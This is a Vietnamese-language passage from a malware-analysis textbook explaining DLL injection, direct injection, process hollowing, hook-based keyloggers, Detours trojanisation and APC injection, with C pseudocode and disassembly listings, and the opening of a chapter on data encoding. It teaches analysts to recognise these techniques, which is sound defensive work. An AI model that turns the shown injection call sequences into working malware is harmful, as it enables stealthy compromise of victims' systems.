Để chèn DLL độc hại vào chương trình mục tiêu, mã độc launcher trước tiên phải lấy được handle tới tiến trình nạn nhân. Cách phổ biến nhất là sử dụng các lời gọi Windows API `CreateToolhelp32Snapshot`, `Process32First`, và `Process32Next` để tìm kiếm mục tiêu chèn trong danh sách tiến trình. Khi tìm thấy mục tiêu, launcher sẽ lấy Process Identifier (PID) của tiến trình đích rồi sử dụng PID đó để lấy handle thông qua lời gọi `OpenProcess`.

Hàm `CreateRemoteThread` thường được sử dụng cho DLL injection để cho phép mã độc launcher tạo và thực thi một luồng (thread) mới bên trong tiến trình từ xa. Khi `CreateRemoteThread` được dùng, nó được truyền ba tham số quan trọng: handle của tiến trình (`hProcess`) lấy được từ `OpenProcess`, điểm bắt đầu của luồng được chèn (`lpStartAddress`), và một đối số cho luồng đó (`lpParameter`). Ví dụ, điểm bắt đầu có thể được đặt thành địa chỉ hàm `LoadLibrary`, và tên DLL độc hại được truyền làm đối số. Thao tác này sẽ kích hoạt `LoadLibrary` chạy trong tiến trình nạn nhân với tham số là DLL độc hại, từ đó khiến DLL đó được nạp vào tiến trình nạn nhân (giả định rằng `LoadLibrary` khả dụng trong không gian bộ nhớ của tiến trình nạn nhân và chuỗi tên thư viện độc hại cũng tồn tại trong chính không gian bộ nhớ đó).

Các tác giả mã độc thường sử dụng `VirtualAllocEx` để tạo không gian nhớ cho chuỗi tên thư viện độc hại. Hàm `VirtualAllocEx` cấp phát bộ nhớ trong một tiến trình từ xa nếu handle của tiến trình đó được cung cấp.

Hàm thiết lập cuối cùng cần thiết trước khi có thể gọi `CreateRemoteThread` là `WriteProcessMemory`. Hàm này ghi chuỗi tên thư viện độc hại vào không gian bộ nhớ đã được cấp phát bằng `VirtualAllocEx`.

Đoạn mã _12.1_ chứa mã giả C để thực hiện DLL injection.
```c
hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, victimProcessID /* [1] */);
pNameInVictimProcess = VirtualAllocEx(hVictimProcess,...,sizeof(maliciousLibraryName),...,...);
WriteProcessMemory(hVictimProcess,...,maliciousLibraryName, sizeof(maliciousLibraryName),...);
GetModuleHandle("Kernel32.dll");
GetProcAddress(...,"LoadLibraryA");
/* [2] */ CreateRemoteThread(hVictimProcess,...,...,LoadLibraryAddress,pNameInVictimProcess,...,...);
```
_Listing 12.1: Mã giả C cho DLL injection_

Đoạn mã này giả định rằng chúng ta lấy được PID của nạn nhân trong `victimProcessID` khi nó được truyền vào `OpenProcess` tại `[1]` để lấy handle tới tiến trình nạn nhân. Sử dụng handle này, `VirtualAllocEx` và `WriteProcessMemory` sau đó sẽ cấp phát bộ nhớ và ghi tên của DLL độc hại vào tiến trình nạn nhân. Tiếp theo, `GetProcAddress` được dùng để lấy địa chỉ của `LoadLibrary`.

Cuối cùng, tại `[2]`, `CreateRemoteThread` được truyền ba tham số quan trọng đã thảo luận trước đó: handle tới tiến trình nạn nhân, địa chỉ của `LoadLibrary`, và một con trỏ tới tên DLL độc hại trong tiến trình nạn nhân. Cách dễ nhất để nhận diện DLL injection là xác định chuỗi lời gọi Windows API đặc trưng này khi xem mã disassembly của mã độc launcher.

Trong DLL injection, mã độc launcher không bao giờ tự gọi trực tiếp một hàm độc hại nào. Như đã nêu trước đó, mã độc hại nằm trong `DllMain`, vốn được hệ điều hành tự động gọi khi DLL được nạp vào bộ nhớ. Mục tiêu của launcher trong DLL injection là gọi `CreateRemoteThread` để tạo remote thread chạy `LoadLibrary`, với tham số là DLL độc hại đang được chèn.

Hình _12.2_ hiển thị mã DLL injection nhìn qua trình gỡ lỗi (debugger). Sáu lời gọi hàm từ mã giả của chúng ta trong Đoạn mã _12.1_ có thể được thấy trong mã disassembly, được đánh dấu từ `[1]` đến `[6]`.

Một khi bạn tìm thấy hoạt động DLL injection trong mã disassembly, bạn nên bắt đầu tìm kiếm các chuỗi chứa tên của DLL độc hại và tiến trình nạn nhân. Trong trường hợp của Hình _12.2_, chúng ta không thấy các chuỗi đó, nhưng chúng phải được truy cập trước khi đoạn mã này thực thi. Tên tiến trình nạn nhân thường có thể được tìm thấy trong hàm `strncmp` (hoặc tương đương) khi launcher xác định PID của tiến trình nạn nhân. Để tìm tên DLL độc hại, chúng ta có thể đặt một breakpoint tại `0x407735` và dump nội dung của stack để thấy giá trị của `Buffer` khi nó đang được truyền vào `WriteProcessMemory`.

Khi bạn đã có thể nhận diện mẫu mã DLL injection và xác định các chuỗi quan trọng này, bạn sẽ có thể nhanh chóng phân tích toàn bộ một nhóm các mã độc launcher.

#### b. Tiêm Mã Nhị Phân Trực Tiếp (Direct Injection)

Giống như DLL injection, direct injection liên quan đến việc cấp phát và chèn mã vào không gian bộ nhớ của một tiến trình từ xa. Direct injection sử dụng nhiều lời gọi Windows API tương tự như DLL injection. Điểm khác biệt là thay vì viết một DLL riêng biệt và ép tiến trình từ xa phải nạp nó, mã độc direct injection sẽ tiêm trực tiếp mã độc vào tiến trình từ xa.

Direct injection linh hoạt hơn DLL injection, nhưng nó đòi hỏi rất nhiều mã tùy biến (custom code) để có thể chạy thành công mà không gây ảnh hưởng tiêu cực hay làm sập tiến trình đích. Kỹ thuật này có thể được dùng để chèn mã đã biên dịch, nhưng thường xuyên hơn, nó được sử dụng để tiêm shellcode.

Ba hàm thường thấy trong các trường hợp direct injection: `VirtualAllocEx`, `WriteProcessMemory`, và `CreateRemoteThread`. Thông thường sẽ có hai lời gọi tới `VirtualAllocEx` và `WriteProcessMemory`. Lần gọi đầu tiên sẽ cấp phát và ghi dữ liệu được sử dụng bởi remote thread, và lần gọi thứ hai sẽ cấp phát và ghi mã thực thi của remote thread. Lời gọi tới `CreateRemoteThread` sẽ chứa vị trí mã của remote thread (`lpStartAddress`) và dữ liệu (`lpParameter`).

Vì dữ liệu và các hàm được sử dụng bởi remote thread phải tồn tại sẵn trong tiến trình nạn nhân, các quy trình biên dịch thông thường sẽ không hoạt động. Ví dụ, các chuỗi không nằm trong section `.data` thông thường, và `LoadLibrary`/`GetProcAddress` sẽ cần phải được gọi để truy cập các hàm chưa được nạp sẵn. Còn có các hạn chế khác mà chúng tôi sẽ không đi sâu vào ở đây. Về cơ bản, direct injection đòi hỏi tác giả phải là những người viết hợp ngữ (assembly) lành nghề hoặc họ sẽ chỉ tiêm các đoạn shellcode tương đối đơn giản.

Để phân tích mã của remote thread, bạn có thể cần phải gỡ lỗi mã độc và dump tất cả các bộ đệm bộ nhớ (memory buffers) xuất hiện trước các lời gọi tới `WriteProcessMemory` để phân tích trong disassembler. Vì các buffer này thường chứa shellcode nhất, bạn sẽ cần các kỹ năng phân tích shellcode, điều mà chúng ta sẽ thảo luận sâu trong Chương 19.

### 12.3 Kỹ Thuật Rút Ruột Tiến Trình (Process Replacement / Hollowing)

Thay vì chèn mã vào một chương trình chủ, một số mã độc sử dụng một phương pháp gọi là thay thế tiến trình (process replacement - còn được gọi là process hollowing) để ghi đè không gian bộ nhớ của một tiến trình đang chạy bằng một tệp thực thi độc hại. Process replacement được sử dụng khi tác giả mã độc muốn ngụy trang mã độc thành một tiến trình hợp lệ mà không có nguy cơ làm sập tiến trình như khi sử dụng process injection.

Kỹ thuật này cung cấp cho mã độc cùng mức đặc quyền với tiến trình mà nó thay thế. Ví dụ, nếu một mã độc thực hiện tấn công process replacement vào `svchost.exe`, người dùng sẽ thấy một tiến trình có tên `svchost.exe` đang chạy từ `C:\Windows\System32` và có lẽ sẽ không mảy may nghi ngờ. (Nhân tiện, đây là một kiểu tấn công mã độc rất phổ biến.)

Mấu chốt của process replacement là tạo ra một tiến trình ở trạng thái tạm dừng (suspended state). Điều này có nghĩa là tiến trình sẽ được nạp vào bộ nhớ, nhưng luồng chính (primary thread) của tiến trình bị đình chỉ. Chương trình sẽ không làm bất cứ điều gì cho đến khi một chương trình bên ngoài kích hoạt lại (resume) luồng chính, khiến chương trình bắt đầu chạy. Đoạn mã _12.2_ cho thấy cách tác giả mã độc đạt được trạng thái tạm dừng này bằng cách truyền cờ `CREATE_SUSPENDED` (`0x4`) vào tham số `dwCreationFlags` khi thực hiện lời gọi tới `CreateProcess`.
```
00401535 push    edi                     ; lpProcessInformation
00401536 push    ecx                     ; lpStartupInfo
00401537 push    ebx                     ; lpCurrentDirectory
00401538 push    ebx                     ; lpEnvironment
00401539 push    CREATE_SUSPENDED        ; dwCreationFlags
0040153B push    ebx                     ; bInheritHandles
0040153C push    ebx                     ; lpThreadAttributes
0040153D lea     edx, [esp+94h+CommandLine]
00401541 push    ebx                     ; lpProcessAttributes
00401542 push    edx                     ; lpCommandLine
00401543 push    ebx                     ; lpApplicationName
00401544 mov     [esp+0A0h+StartupInfo.dwFlags], 101h
0040154F mov     [esp+0A0h+StartupInfo.wShowWindow], bx
00401557 call    ds:CreateProcessA
```
_Listing 12.2: Mã hợp ngữ hiển thị kỹ thuật process replacement_

Mặc dù ít được Microsoft tài liệu hóa kỹ càng, phương pháp tạo tiến trình này có thể được sử dụng để nạp một tiến trình vào bộ nhớ và tạm dừng nó ngay tại entry point.

Đoạn mã _12.3_ hiển thị mã giả C để thực hiện process replacement.
```c
CreateProcess(...,"svchost.exe",...,CREATE_SUSPEND,...);
ZwUnmapViewOfSection(...);
VirtualAllocEx(...,ImageBase,SizeOfImage,...);
WriteProcessMemory(...,headers,...);
for (i=0; i < NumberOfSections; i++) {
    /* [1] */ WriteProcessMemory(...,section,...);
}
SetThreadContext();
...
ResumeThread();
```
_Listing 12.3: Mã giả C cho process replacement_

Một khi tiến trình được tạo, bước tiếp theo là thay thế bộ nhớ của tiến trình nạn nhân bằng tệp thực thi độc hại, thường bằng cách sử dụng `ZwUnmapViewOfSection` để giải phóng toàn bộ bộ nhớ được trỏ tới bởi section được truyền vào làm tham số. Sau khi bộ nhớ được unmap, loader thực hiện `VirtualAllocEx` để cấp phát bộ nhớ mới cho mã độc, và dùng `WriteProcessMemory` để ghi từng section của mã độc vào không gian tiến trình nạn nhân, thường là bên trong một vòng lặp như hiển thị tại `[1]`.

Ở bước cuối cùng, mã độc khôi phục môi trường tiến trình nạn nhân để mã độc có thể chạy bằng cách gọi `SetThreadContext` nhằm đặt entry point trỏ đến mã độc hại. Cuối cùng, `ResumeThread` được gọi để khởi động mã độc, thứ hiện đã thay thế hoàn toàn tiến trình nạn nhân.

Process replacement là một cách hiệu quả để mã độc ngụy trang thành vô hại. Bằng cách mạo danh tiến trình nạn nhân, mã độc có thể vượt qua tường lửa hoặc các hệ thống ngăn ngừa xâm nhập (IPS) và tránh bị phát hiện vì trông giống như một tiến trình Windows bình thường. Ngoài ra, bằng cách sử dụng đường dẫn của tệp nhị phân gốc, mã độc đánh lừa cả những người dùng có hiểu biết, những người khi xem danh sách tiến trình chỉ thấy tệp nhị phân hợp lệ và đã biết đang chạy, mà không hề biết rằng nó đã bị unmap.

### 12.4 Tiêm Hook Tin Nhắn Hệ Thống (Hook Injection)


*Hình 12.3: Luồng xử lý sự kiện và thông điệp Windows khi bị chặn bởi cơ chế Hook Injection.*

Hook injection mô tả một cách nạp mã độc tận dụng các hook của Windows, vốn được sử dụng để chặn các thông điệp (messages) gửi đến các ứng dụng. Các tác giả mã độc có thể sử dụng hook injection để thực hiện hai mục tiêu:

- Đảm bảo rằng mã độc sẽ chạy bất cứ khi nào một thông điệp cụ thể bị chặn.
- Đảm bảo rằng một DLL cụ thể sẽ được nạp vào không gian bộ nhớ của tiến trình nạn nhân.

Như được hiển thị trong Hình _12.3_, người dùng tạo ra các sự kiện gửi đến hệ điều hành, sau đó hệ điều hành gửi các thông điệp do các sự kiện đó tạo ra tới các luồng đã đăng ký nhận chúng. Phía bên phải của hình cho thấy một cách mà kẻ tấn công có thể chèn một DLL độc hại để chặn các thông điệp.

#### a. Phân biệt Hook Cục bộ (Local) và Hook Từ xa (Remote)

Có hai loại Windows hook:

- $\color{green}{\text{Local hooks:}}$ được sử dụng để quan sát hoặc thao túng các thông điệp dành cho một tiến trình nội bộ.
- $\color{green}{\text{Remote hooks:}}$ được sử dụng để quan sát hoặc thao túng các thông điệp dành cho một tiến trình từ xa (một tiến trình khác trên hệ thống).

Remote hook có hai dạng: mức cao (high-level) và mức thấp (low-level). Remote hook mức cao đòi hỏi thủ tục hook (hook procedure) phải là một hàm export nằm trong một DLL, DLL này sẽ được hệ điều hành ánh xạ (map) vào không gian tiến trình của một luồng bị hook hoặc tất cả các luồng. Remote hook mức thấp yêu cầu hook procedure phải nằm trong chính tiến trình đã cài đặt hook. Thủ tục này sẽ nhận được thông báo trước khi hệ điều hành có cơ hội xử lý sự kiện.

#### b. Keylogger Sử Dụng Cơ Chế Hook

Hook injection thường được sử dụng trong các ứng dụng độc hại được gọi là keylogger để ghi lại các phím bấm. Các lần nhấn phím có thể bị bắt lại bằng cách đăng ký hook mức cao hoặc mức thấp thông qua kiểu hook procedure `WH_KEYBOARD` hoặc `WH_KEYBOARD_LL` tương ứng.

Đối với các thủ tục `WH_KEYBOARD`, hook thường sẽ chạy trong ngữ cảnh của một tiến trình từ xa, nhưng nó cũng có thể chạy trong tiến trình đã cài đặt hook. Đối với các thủ tục `WH_KEYBOARD_LL`, các sự kiện được gửi trực tiếp đến tiến trình đã cài đặt hook, vì vậy hook sẽ chạy trong ngữ cảnh của tiến trình đã tạo ra nó. Sử dụng bất kỳ kiểu hook nào, keylogger cũng có thể chặn các phím bấm và ghi chúng vào tệp hoặc thay đổi chúng trước khi chuyển tiếp đến tiến trình hoặc hệ thống.

$\color{green}{\text{Using SetWindowsHookEx}}$

Hàm chính được sử dụng để thực hiện Windows hooking từ xa là `SetWindowsHookEx`, hàm này có các tham số sau:

- `idHook`: Chỉ định loại thủ tục hook cần cài đặt.
- `lpfn`: Trỏ tới thủ tục hook (hook procedure).
- `hMod`: Đối với hook mức cao, xác định handle của DLL chứa thủ tục hook được định nghĩa bởi `lpfn`. Đối với hook mức thấp, tham số này xác định module cục bộ nơi thủ tục `lpfn` được định nghĩa.
- `dwThreadId`: Chỉ định định danh của luồng mà thủ tục hook sẽ liên kết với. Nếu tham số này bằng 0, thủ tục hook sẽ liên kết với tất cả các luồng hiện có đang chạy trên cùng một desktop với luồng gọi. Tham số này bắt buộc phải đặt bằng 0 đối với các hook mức thấp.

Thủ tục hook có thể chứa mã để xử lý các thông điệp khi chúng được gửi đến từ hệ thống, hoặc có thể không làm gì cả. Dù thế nào đi nữa, thủ tục hook phải gọi `CallNextHookEx`, hàm này đảm bảo rằng thủ tục hook tiếp theo trong chuỗi hook nhận được thông điệp và hệ thống tiếp tục vận hành bình thường.

#### c. Nhắm Mục Tiêu Theo Luồng Xử Lý

Khi nhắm mục tiêu vào một `dwThreadId` cụ thể, mã độc thường bao gồm các chỉ lệnh để xác định thread identifier nào của hệ thống sẽ được sử dụng, hoặc nó được thiết kế để nạp vào tất cả các luồng. Mặc dù vậy, mã độc sẽ chỉ nạp vào tất cả các luồng nếu nó là keylogger hoặc công cụ tương đương (khi mục tiêu là chặn bắt thông điệp). Tuy nhiên, việc nạp vào tất cả các luồng có thể làm giảm hiệu năng hệ thống đang chạy và có thể kích hoạt cảnh báo từ IPS. Do đó, nếu mục tiêu chỉ đơn giản là nạp một DLL vào tiến trình từ xa, nó sẽ chỉ tiêm vào một luồng duy nhất để duy trì sự lén lút.

Việc nhắm mục tiêu vào một luồng đơn lẻ đòi hỏi phải tìm kiếm trong danh sách tiến trình để tìm tiến trình đích và có thể yêu cầu mã độc phải chạy một chương trình nếu tiến trình đích chưa chạy sẵn. Nếu một ứng dụng độc hại hook một thông điệp Windows thường xuyên được sử dụng, nó có nhiều khả năng kích hoạt IPS hơn, vì vậy mã độc thường sẽ thiết lập một hook với thông điệp ít khi được dùng, chẳng hạn như `WH_CBT` (một thông điệp computer-based training).

Đoạn mã _12.4_ hiển thị mã assembly để thực hiện hook injection nhằm nạp một DLL vào không gian bộ nhớ của một tiến trình khác.
```
00401100 push    esi
00401101 push    edi
00401102 push    offset LibFileName      ; "hook.dll"
00401107 call    LoadLibraryA
0040110D mov     esi, eax
0040110F push    offset ProcName         ; "MalwareProc"
00401114 push    esi                     ; hModule
00401115 call    GetProcAddress
0040111B mov     edi, eax
0040111D call    GetNotepadThreadId
00401122 push    eax                     ; dwThreadId
00401123 push    esi                     ; hmod
00401124 push    edi                     ; lpfn
00401125 push    WH_CBT                  ; idHook
00401127 call    SetWindowsHookExA
```
_Listing 12.4: Hook injection, mã hợp ngữ_

Trong Listing _12.4_, DLL độc hại (`hook.dll`) được mã độc nạp, và địa chỉ của hook procedure độc hại được lấy ra. Hook procedure, `MalwareProc`, chỉ gọi duy nhất `CallNextHookEx`. Sau đó `SetWindowsHookEx` được gọi cho một luồng trong `notepad.exe` (giả sử rằng `notepad.exe` đang chạy). `GetNotepadThreadId` là một hàm tự định nghĩa cục bộ để lấy `dwThreadId` cho `notepad.exe`. Cuối cùng, một thông điệp `WH_CBT` được gửi đến tiến trình `notepad.exe` đã bị tiêm nhằm buộc `hook.dll` phải được nạp bởi `notepad.exe`. Điều này cho phép `hook.dll` chạy trong không gian tiến trình của `notepad.exe`.

Một khi `hook.dll` được tiêm, nó có thể thực thi toàn bộ mã độc hại lưu trữ trong `DllMain` dưới lớp vỏ bọc ngụy trang là tiến trình `notepad.exe`. Vì `MalwareProc` chỉ gọi `CallNextHookEx`, nó sẽ không can thiệp vào các thông điệp đến, nhưng mã độc thường gọi ngay `LoadLibrary` và `UnhookWindowsHookEx` trong `DllMain` để đảm bảo các thông điệp đến không bị ảnh hưởng.

### 12.5 Kỹ Thuật Thư Viện Detours

Detours là một thư viện được phát triển bởi Microsoft Research vào năm 1999. Ban đầu nó được dự định như một cách để dễ dàng theo dõi (instrument) và mở rộng chức năng hiện có của hệ điều hành và ứng dụng. Thư viện Detours giúp nhà phát triển có thể sửa đổi ứng dụng một cách đơn giản.

Các tác giả mã độc cũng rất thích Detours, và họ sử dụng thư viện Detours để thực hiện sửa đổi bảng import (import table modification), gắn (attach) các DLL vào các tệp chương trình hiện có trên đĩa, và thêm các hook hàm vào các tiến trình đang chạy.

Tác giả mã độc thường dùng Detours nhất để thêm các DLL mới vào các tệp nhị phân hiện có trên đĩa. Mã độc sửa đổi cấu trúc PE và tạo một section có tên `.detour`, thường được đặt giữa export table và debug symbols. Section `.detour` chứa PE header gốc với một bảng import address table mới. Sau đó, tác giả mã độc sử dụng Detours để sửa đổi PE header trỏ đến bảng import mới, bằng cách sử dụng công cụ `setdll` được cung cấp kèm theo thư viện Detours.


Hình _12.4_ hiển thị góc nhìn PEview khi Detours được sử dụng để trojan hóa `notepad.exe`. Hãy để ý trong section `.detour` tại `[1]`, bảng import mới chứa `evil.dll`, như thấy tại `[2]`. `Evil.dll` giờ đây sẽ được nạp bất cứ khi nào Notepad được khởi chạy. Notepad sẽ tiếp tục hoạt động như bình thường và hầu hết người dùng sẽ không hề hay biết rằng DLL độc hại đã được thực thi.

Thay vì sử dụng thư viện Detours chính thức của Microsoft, các tác giả mã độc cũng được biết đến là đã sử dụng các phương pháp thay thế và tự tạo để thêm section `.detour`. Việc sử dụng các phương thức này để thêm detour sẽ không làm ảnh hưởng đến khả năng phân tích mã độc của bạn.



*Hình 12.4: Khảo sát cấu trúc tệp nhị phân notepad.exe bị sửa đổi bằng Microsoft Detours thông qua công cụ PEview, phát hiện section .detour nạp DLL độc hại.*

### 12.6 Tiêm Hàng Đợi Lời Gọi Không Đồng Bộ (APC Injection)

Ở phần trước trong chương này, bạn đã thấy rằng bằng cách tạo một luồng bằng `CreateRemoteThread`, bạn có thể gọi chức năng trong một tiến trình từ xa. Tuy nhiên, việc tạo luồng đòi hỏi tài nguyên hệ thống (overhead), do đó sẽ hiệu quả hơn nếu gọi một hàm trên một luồng đã tồn tại sẵn. Khả năng này tồn tại trong Windows dưới dạng cuộc gọi thủ tục không đồng bộ (Asynchronous Procedure Call - APC).

APC có thể chỉ thị một luồng thực thi một đoạn mã nào đó trước khi tiếp tục đường dẫn thực thi thông thường của nó. Mỗi luồng đều có một hàng đợi APC (APC queue) gắn liền với nó, và các APC này được xử lý khi luồng ở trạng thái có thể cảnh báo (alertable state), chẳng hạn như khi chúng gọi các hàm như `WaitForSingleObjectEx`, `WaitForMultipleObjectsEx`, và `Sleep`. Về cơ bản, các hàm này trao cho luồng một cơ hội để xử lý các APC đang chờ trong hàng đợi.

Nếu một ứng dụng xếp hàng một APC trong khi luồng đang ở trạng thái alertable nhưng trước khi luồng bắt đầu chạy tiếp, luồng sẽ bắt đầu bằng cách gọi hàm APC. Một luồng gọi lần lượt từng hàm APC cho tất cả các APC có trong hàng đợi của nó. Khi hàng đợi APC được xử lý xong, luồng sẽ tiếp tục chạy theo đường dẫn thực thi thông thường. Tác giả mã độc sử dụng APC để chiếm quyền ưu tiên của các luồng đang ở trạng thái alertable nhằm thực thi mã của chúng ngay lập tức.

APC có hai dạng:

- Một APC được tạo ra cho hệ thống hoặc driver được gọi là kernel-mode APC.
- Một APC được tạo ra cho một ứng dụng được gọi là user-mode APC.

Mã độc tạo ra các user-mode APC từ cả kernel space lẫn user space bằng kỹ thuật APC injection. Chúng ta hãy cùng xem xét kỹ hơn từng phương pháp này.

#### a. Tiêm APC Từ Không Gian User-Space

Từ user space, một luồng khác có thể xếp hàng một hàm để được gọi trong một luồng từ xa, bằng cách sử dụng hàm API `QueueUserAPC`. Vì một luồng phải ở trạng thái alertable để có thể chạy một user-mode APC, mã độc sẽ tìm cách nhắm mục tiêu vào các luồng trong các tiến trình có nhiều khả năng rơi vào trạng thái đó. Thật may cho nhà phân tích mã độc, `WaitForSingleObjectEx` là một trong những lời gọi phổ biến nhất trong Windows API, và thường có rất nhiều luồng đang ở trạng thái alertable.

Hãy cùng kiểm tra các tham số của `QueueUserAPC`: `pfnAPC`, `hThread`, và `dwData`. Một lời gọi đến `QueueUserAPC` là một yêu cầu gửi tới luồng có handle là `hThread` để chạy hàm được xác định bởi `pfnAPC` với tham số là `dwData`. Đoạn mã 12-5 cho thấy cách mã độc có thể sử dụng `QueueUserAPC` để ép buộc nạp một DLL trong ngữ cảnh của một tiến trình khác, mặc dù trước khi đi tới đoạn mã này, mã độc đã chọn xong luồng mục tiêu.

> **GHI CHÚ:** Trong quá trình phân tích, bạn có thể tìm thấy đoạn mã nhắm mục tiêu luồng bằng cách tìm kiếm các lời gọi API như `CreateToolhelp32Snapshot`, `Process32First`, và `Process32Next` để mã độc tìm tiến trình đích. Các lời gọi API này thường sẽ được theo sau bởi các lời gọi đến `Thread32First` và `Thread32Next`, nằm trong một vòng lặp để tìm luồng bên trong tiến trình đích. Ngoài ra, mã độc cũng có thể sử dụng `Nt/ZwQuerySystemInformation` với lớp thông tin `SYSTEM_PROCESS_INFORMATION` để tìm tiến trình đích.

```
00401DA9 push    [esp+4+dwThreadId]      ; dwThreadId
00401DAD push    0                       ; bInheritHandle
00401DAF push    10h                     ; dwDesiredAccess
00401DB1 call    ds:OpenThread           ; [1]
00401DB7 mov     esi, eax
00401DB9 test    esi, esi
00401DBB jz      short loc_401DCE
00401DBD push    [esp+4+dwData]          ; dwData = dbnet.dll
00401DC1 push    esi                     ; hThread
00401DC2 push    ds:LoadLibraryA         ; [2] pfnAPC
00401DC8 call    ds:QueueUserAPC
```
_Listing 12.5: APC injection từ một ứng dụng user-mode_

Khi đã có được định danh luồng mục tiêu, mã độc sử dụng nó để mở một handle tới luồng, như thấy tại `[1]`. Trong ví dụ này, mã độc đang tìm cách ép luồng nạp một DLL trong tiến trình từ xa, vì vậy bạn thấy một lời gọi tới `QueueUserAPC` với `pfnAPC` được đặt thành `LoadLibraryA` tại `[2]`. Tham số được gửi tới `LoadLibraryA` sẽ nằm trong `dwData` (trong ví dụ này, nó đã được đặt thành DLL `dbnet.dll` ở đoạn mã phía trước). Một khi APC này được đưa vào hàng đợi và luồng chuyển sang trạng thái alertable, `LoadLibraryA` sẽ được luồng từ xa gọi, khiến tiến trình đích nạp `dbnet.dll`.

Trong ví dụ này, mã độc đã nhắm mục tiêu vào `svchost.exe`, vốn là một mục tiêu phổ biến cho kỹ thuật APC injection vì các luồng của nó thường xuyên ở trạng thái alertable. Mã độc có thể thực hiện APC injection vào mọi luồng của `svchost.exe` chỉ để đảm bảo rằng việc thực thi diễn ra nhanh chóng.

#### b. Tiêm APC Từ Không Gian Kernel-Space

Các driver độc hại và rootkit thường muốn thực thi mã trong user space, nhưng không có cách nào dễ dàng để chúng làm điều đó. Một phương pháp chúng sử dụng là thực hiện APC injection từ kernel space để chiếm quyền thực thi mã trong user space. Một driver độc hại có thể xây dựng một APC và điều phối (dispatch) một luồng để thực thi nó trong một tiến trình user-mode (thường gặp nhất là `svchost.exe`). Các APC kiểu này thường bao gồm shellcode.

Các device driver tận dụng hai hàm chính để sử dụng APC: `KeInitializeApc` và `KeInsertQueueApc`. Đoạn mã _12.6_ cho thấy một ví dụ về việc sử dụng các hàm này trong một rootkit.
```
000119BD push    ebx
000119BE push    1                       ; [1]
000119C0 push    [ebp+arg_4]             ; [2]
000119C3 push    ebx
000119C4 push    offset sub_11964
000119C9 push    2
000119CB push    [ebp+arg_0]             ; [3]
000119CE push    esi
000119CF call    ds:KeInitializeApc
000119D5 cmp     edi, ebx
000119D7 jz      short loc_119EA
000119D9 push    ebx
000119DA push    [ebp+arg_C]
000119DD push    [ebp+arg_8]
000119E0 push    esi
000119E1 call    edi                     ; KeInsertQueueApc
```
_Listing 12-6: User-mode APC injection từ kernel space_

APC trước tiên phải được khởi tạo bằng một lời gọi đến `KeInitializeApc`. Nếu tham số thứ sáu (`NormalRoutine`) tại `[2]` khác 0 kết hợp với tham số thứ bảy (`ApcMode`) tại `[1]` được đặt thành `1`, thì chúng ta đang xem xét loại user-mode APC. Do đó, việc tập trung vào hai tham số này có thể cho bạn biết liệu rootkit có đang sử dụng APC injection để chạy mã trong user space hay không.

`KeInitializeApc` khởi tạo một cấu trúc `KAPC`, cấu trúc này phải được truyền cho `KeInsertQueueApc` để đưa đối tượng APC vào hàng đợi APC tương ứng của luồng đích. Trong Đoạn mã _12.6_, thanh ghi ESI sẽ chứa cấu trúc `KAPC`. Một khi `KeInsertQueueApc` thành công, APC sẽ được xếp vào hàng đợi để chạy.

Trong ví dụ này, mã độc đã nhắm mục tiêu vào `svchost.exe`, nhưng để đưa ra kết luận đó, chúng ta cần truy ngược lại tham số áp chót được đẩy lên stack cho `KeInitializeApc`. Tham số này chứa luồng sẽ bị tiêm. Trong trường hợp này, nó nằm trong `arg_0`, như thấy tại `[3]`. Do đó, chúng ta cần xem ngược lại trong mã nguồn để kiểm tra cách `arg_0` được thiết lập nhằm nhận ra các luồng của `svchost.exe` đã bị nhắm làm mục tiêu.

## Chương 13: Mã Hóa Dữ Liệu Trong Mã Độc (Data Encoding)

Trong ngữ cảnh phân tích mã độc, thuật ngữ **mã hóa dữ liệu (data encoding)** đề cập đến tất cả các hình thức sửa đổi nội dung nhằm mục đích che giấu ý đồ thực sự. Mã độc sử dụng các kỹ thuật mã hóa để che giấu các hoạt động độc hại của nó, và là một nhà phân tích mã độc, bạn sẽ cần hiểu các kỹ thuật này để nắm bắt trọn vẹn bản chất của mã độc.

Khi sử dụng mã hóa dữ liệu, kẻ tấn công sẽ chọn phương pháp đáp ứng tốt nhất mục tiêu của chúng. Đôi khi, chúng sẽ chọn các mật mã đơn giản (simple ciphers) hoặc các hàm mã hóa cơ bản vừa dễ lập trình vừa mang lại mức độ bảo vệ vừa đủ; những lần khác, chúng sẽ sử dụng các thuật toán mã hóa mật mã học phức tạp (sophisticated cryptographic ciphers) hoặc thuật toán mã hóa tùy biến (custom encryption) để khiến việc nhận diện và dịch ngược (reverse-engineering) trở nên khó khăn hơn.

Chúng ta bắt đầu chương này bằng việc tập trung vào việc tìm kiếm và nhận diện các hàm mã hóa. Sau đó, chúng ta sẽ đề cập đến các chiến lược để giải mã chúng.

### 13.1 Mục Tiêu Phân Tích Các Thuật Toán Mã Hóa

Mã độc sử dụng mã hóa cho nhiều mục đích khác nhau. Cách sử dụng phổ biến nhất là để mã hóa giao tiếp qua mạng. Mã độc cũng sử dụng mã hóa để che giấu cơ chế hoạt động nội bộ của nó. Ví dụ, một tác giả mã độc có thể sử dụng một lớp mã hóa cho các mục đích sau:

- Để ẩn thông tin cấu hình, chẳng hạn như tên miền máy chủ điều khiển (C2 domain).
- Để lưu thông tin vào một tệp trung gian (staging file) trước khi đánh cắp dữ liệu ra ngoài.
- Để lưu trữ các chuỗi ký tự mà mã độc sử dụng và chỉ giải mã chúng ngay trước khi cần dùng đến.
- Để ngụy trang mã độc thành một công cụ hợp lệ, che giấu các chuỗi ký tự phục vụ cho hoạt động độc hại.

Mục tiêu của chúng ta khi phân tích các thuật toán mã hóa luôn bao gồm hai phần: **nhận diện các hàm mã hóa** và sau đó **sử dụng kiến thức đó để giải mã các bí mật của kẻ tấn công**.

### 13.2 Các Thuật Toán Mã Hóa Đơn Giản

Các kỹ thuật mã hóa đơn giản đã tồn tại hàng nghìn năm. Mặc dù bạn có thể cho rằng năng lực tính toán khổng lồ của máy tính hiện đại đã khiến các mật mã đơn giản bị tuyệt chủng, nhưng thực tế không phải như vậy. Các kỹ thuật mã hóa đơn giản thường được sử dụng để ngụy trang nội dung sao cho mắt người không thể đọc trực tiếp được ngay hoặc để chuyển đổi dữ liệu sang một bộ ký tự khác.

Các mật mã đơn giản thường bị đánh giá thấp vì thiếu tính tinh vi, nhưng chúng lại mang lại nhiều lợi thế cho mã độc, bao gồm:

